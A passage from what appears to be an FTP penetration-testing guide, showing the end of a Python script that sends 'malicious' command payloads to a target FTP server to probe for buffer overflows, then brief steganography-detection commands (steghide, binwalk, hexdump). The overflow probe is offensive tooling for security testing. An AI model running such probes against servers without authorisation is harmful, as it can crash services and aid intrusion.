 ```python
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(10)
            s.connect((target, port))
            
            # Read banner
            banner = s.recv(1024)
            print(f"Banner: {banner.decode().strip()}")
            
            # Send malicious command
            malicious_cmd = f"{command} {payload}\r\n"
            s.send(malicious_cmd.encode())
            
            # Check response
            response = s.recv(1024)
            print(f"Response: {response.decode().strip()}")
            
            s.close()
            
        except Exception as e:
            print(f"Error testing {command}: {e}")
            # Server crash or connection issues might indicate vulnerability

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 ftp-buffer-test.py <target>")
        sys.exit(1)
    
    target = sys.argv[1]
    print(f"Testing FTP buffer overflow on {target}")
    test_ftp_buffer(target)

if __name__ == "__main__":
    main()
```

### Steganography and Covert Channels

#### Hidden Data in FTP Transfers
```bash
# Check for steganographic content in images
steghide info downloaded_image.jpg
steghide extract -sf downloaded_image.jpg

# Analyze file headers for hidden data
hexdump -C suspicious_file.txt | head -20
binwalk suspicious_file.txt

# Check for alternate data streams (Windows)
# Files downloaded from Windows FTP servers might have ADS
```

---